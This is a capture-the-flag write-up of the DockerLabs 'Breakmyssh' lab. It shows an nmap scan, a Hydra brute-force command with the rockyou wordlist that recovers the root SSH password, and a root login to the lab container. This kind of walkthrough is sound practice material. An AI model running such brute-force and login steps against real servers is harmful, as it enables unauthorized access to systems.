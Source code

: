 #Breakmyssh( DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

We start with a port scan with nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:55 CEST
Nmap scan report for 172.17.0.3
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.18 seconds

```

We see only one ssh server with a version of OpenSSH 7.7.
We tried a brute force attack with Hydra on the user "root" to test and found that the password is "estrella".:

```shell
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3/ -t 5
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).


Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 21:24:39
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344400 login tries (l:1/p:14344400), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: root   password: estrella
```
We enter the server with these data:

```shell
└─$ ssh root@172.17.0.3
```

```shell
root@f83a9e7115cf:~# whoami
root
```
